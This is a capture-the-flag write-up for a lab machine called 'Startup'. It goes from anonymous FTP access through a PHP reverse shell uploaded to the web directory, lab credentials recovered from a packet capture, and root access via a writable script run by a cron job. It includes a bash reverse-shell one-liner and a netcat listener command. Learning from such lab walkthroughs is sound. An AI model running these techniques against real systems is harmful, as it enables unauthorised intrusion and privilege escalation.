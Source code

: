# Startup

##### Difficulty: [ Easy ] 

**Tags:** `Linux`,  `nmap`,  `ftp`,  `magic numbers`,  `Gobuster`,  `reverse shell`,  `Wireshark`,  `ssh`,  `cronjob`,  `pspy`

---

##### Written: 17/09/2021

##### IP Address: 10.10.96.254

---

### [ What is the secret spicy soup recipe? ]

First, let's run a basic **nmap** scan on our target machine using the follow command:

```
sudo nmap -sC -sV -vv 10.10.96.254
```

Results:

<img style="float: left;" src="screenshots/screenshot1.png">

As we can see, there are 3 ports currently open on the machine:

* 21 - FTP Server
* 22 - SSH Server
* 80 - HTTP Server

We can also see that the FTP server allows for **anonymous login**! This is a misconfiguration that can be commonly found on FTP servers, allowing us to access the files within the server without a password.

Let's login to the FTP server. We use the username: **anonymous** and do not need to supply a password.

<img style="float: left;" src="screenshots/screenshot2.png">

We find two files: **important.jpg** and **notice.txt**. There is also a **ftp** directory, although there seems to be nothing inside. Now let's download those files to our local machine using the command:

```
get < file_name >
```

<br>

Contents of **notice.txt**:

<img style="float: left;" src="screenshots/screenshot3.png">

Looks like some fluff about Among Us memes :sweat_smile:. There is also mention of **Maya**. We can note this down as it could be a potential username that we can use later on.

<br>

Next, we can open **important.jpg**, but it will give us the following error:

<img style="float: left;" src="screenshots/screenshot4.png">

Let's check the file format to find out what type of file this really is. We can do so by checking the **file signature**, which are also known as **magic numbers** or **magic bytes**. To do so, we use **hexeditor** like so:

```
hexeditor < file_name >
```

<img style="float: left;" src="screenshots/screenshot5.png">

Here, we can see the first few lines of hexadecimal characters that make up the file. The magic bytes will always be placed at the very beginning of the file. Looking at the following wikipedia page: 

https://en.wikipedia.org/wiki/List_of_file_signatures#:~:text=This%20is%20a%20list%20of,its%20contents%20will%20be%20unintelligible

<img style="float: left;" src="screenshots/screenshot6.png">

We can see that the file is actually a **PNG** file (*89 50 4E 47 0D 0A 1A 0A*). Now we just have to change the file extension of important.jpg to **important.png** and we should be able to view it.

Contents of **important.png**:

<img style="float: left;" src="screenshots/screenshot7.png">

Found the Among Us meme! While the content does not seem especially interesting, perhaps we can check for steganography by using **zsteg**:

```
zsteg < file_name >
```

Results:
<img style="float: left;" src="screenshots/screenshot8.png">





I'm not well-versed with steganography, but I believe that there is nothing that we can use from these results. Hitting a dead end here, let's go ahead and explore the other services that are currently running on our target.

<br>

When we visit the web server, we are greeted with the following page:

<img style="float: left;" src="screenshots/screenshot9.png">

There is a **'contact us'** link that opens the **mailto** functionality:

<img style="float: left;" src="screenshots/screenshot10.png">

From this Wikipedia page: https://en.wikipedia.org/wiki/Mailto, I learnt that **mailto** is a Uniform Resource Identifier (URI) scheme for email addresses. It is used to produce hyperlinks on websites that allow users to send an email to a specific address directly from an HTML document, without having to copy it and entering it into an email client. 

It would also seem that the **mailto** has not been properly configured as it points to **#**, instead of an email address. Looking at the source code of the page, we can confirm this as the developer has left a comment:

<img style="float: left;" src="screenshots/screenshot11.png">

At first, I thought that we would be exploiting a vulnerability with this **mailto** functionality. However, after doing some research online, I was unable to find a vulnerability that could be used for this room. (There were a variety of vulnerabilities that do exist though!)

<br>

Next, we can run a **Gobuster** scan to try and find any hidden directories on this web server:

```
gobuster dir -u http://10.10.96.254/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Results of scan:

<img style="float: left;" src="screenshots/screenshot12.png">

There is a **/files** directory on the web server! Visiting this directory, we are brought to the FTP directory from earlier.

<img style="float: left;" src="screenshots/screenshot13.png">

Great! This means that we can upload a **reverse shell** script onto the FTP server and then execute it from this web directory, granting us access into the machine. 

We will be using the **PHP** **reverse shell** script created by **pentestmonkey**. To upload the script onto the FTP server, we use the following command:

```
put <file_name>
```

<img style="float: left;" src="screenshots/screenshot14.png">

After doing so, we can see that the script has been successfully uploaded on the **ftp** directory within the FTP server. Now, we just have to run a **netcat listener** and open the script within the web browser.

**netcat** command:

```
nc -lvnp 1234
```

<br>

Gaining access :smiling_imp: :

<img style="float: left;" src="screenshots/screenshot15.png">

<br>

<img style="float: left;" src="screenshots/screenshot16.png">

In the **/** directory, we can find the **recipe.txt** file, which gives us flag to the first question:

<img style="float: left;" src="screenshots/screenshot17.png">

The secret soup recipe is **love**.

---

### [ What are the contents of user.txt? ]

Within the **/** directory, we can also see an interesting directory called **incidents**. The directory contains a **pcap** file called **suspicious.pcapng**:

<img style="float: left;" src="screenshots/screenshot18.png">

Let's go ahead and download this file onto our local machine and open it up in **Wireshark**!

<br>

<img style="float: left;" src="screenshots/screenshot19.png">

We will need to sieve through the captured packets to see if we can obtain any usable information such as passwords. Firstly, let's check out the **HTTP** traffic captured, as that is unencrypted and could reveal some credentials:

<img style="float: left;" src="screenshots/screenshot20.png">

There are only a few HTTP packets and none of them contain any credentials. With that said, it seems as if someone prior had already conducted the same attack as us, having uploaded their own reverse shell onto the FTP server.

<br>

Next, let's look at **TCP** traffic. We can simple **right-click** on any of the TCP packets and click on **Follow** > **TCP Stream**. 

<img style="float: left;" src="screenshots/screenshot21.png">

Nice! We've found a potential username and password -> **lennie:c4ntg3t3n0ughsp1c3**

With this credentials, we can try to log into the **SSH** server:

<img style="float: left;" src="screenshots/screenshot22.png">

And we're in! We can then obtain **user.txt**.

---

### [ What are the contents of root.txt? ]

Within Lennie's home directory, there are two interesting directories: **Documents** and **scripts**.

Looking at **Documents**, there are 3 text files: **concern.txt**, **list.txt** and **note.txt**. These files did not seem to contain anything that we can use to escalate our privileges.

Next, in the **scripts** directory, there is a **planner.sh** script and **startup_list.txt** file. What's interesting to note is that both of these files are owned by **root**.

<img style="float: left;" src="screenshots/screenshot23.png">

Since we can read **planner.sh** as a non-root user, we can find out what it does:

<img style="float: left;" src="screenshots/screenshot24.png">

It looks like it echoes the contents of **$LIST** into **startup_list.txt**, before running **/etc/print.sh**. Let's now take a look at **/etc/print.sh**.

<img style="float: left;" src="screenshots/screenshot25.png">

All it does is **echo "Done!"**. With that said, **print.sh** actually belongs to **Lennie**! This means that we are able to write over it and since it's a bash script, we can have it execute anything we want, such as opening a **reverse shell**. We'll be using the **bash** reverse shell from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
bash -i >& /dev/tcp/<IP_ADDRESS_HERE>/<PORT_HERE> 0>&1
```

Now, we just have to figure out how we can execute **planner.sh** as **root**, which will then subsequently execute **print.sh** and open  up the reverse shell with root privileges.

<br>

At this point, I had an inkling that **planner.sh** was most probably being run as a **cronjob** by root. To verify this, we can use a nifty program called **pspy** (https://github.com/DominicBreuker/pspy/blob/master/README.md), which allows us to snoop on processes without the need for root permissions. This tool will tell us what cronjobs root is running without needing root permissions. 

After uploading the **pspy32** executable onto the SSH server, we can then execute it:

<img style="float: left;" src="screenshots/screenshot26.png">

As we can see, the **planner.sh** was automatically run with the UID=0 (root). This confirms that it is indeed a cronjob belonging to root!

Now, all we have to do is set up our netcat listener, sit back and relax.

<br>

<img style="float: left;" src="screenshots/screenshot27.png">

**After a few seconds, our reverse shell is successfully opened and we are logged into the server as root. With that, we can obtain root.txt and complete the room.**

